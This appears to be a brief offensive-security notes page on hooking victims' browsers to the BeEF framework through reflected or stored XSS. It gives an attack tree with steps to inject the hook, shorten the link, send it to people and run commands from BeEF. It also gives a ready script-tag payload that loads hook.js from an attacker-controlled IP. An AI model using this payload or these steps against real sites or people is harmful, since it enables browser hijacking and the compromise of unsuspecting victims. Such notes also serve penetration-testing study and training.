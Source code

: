 # Hooking targets to BeEF using XSS

## Attack tree

```text
1 Reflected XSS
    1.1 Create BeEF hook
    1.2 Inject hook script in vulnerable pages
    1.3 Take url and tiny it
    1.4 Send tiny link to people
    1.3 Execute commands from BeEF
2 Stored XSS
    2.1 Create BeEF hook
    2.2 Inject hook script in vulnerable pages
    2.3 Send link to people
    2.4 Execute commands from BeEF
```

## Examples

To create a BeEF hook, copy the code given by beEF and replace IP address with address of hacking machine:

    <script src="http://192.168.122.104:3000/hook.js"></script>

## Tools

* [BeEF XSS](https://www.kali.org/tools/beef-xss/)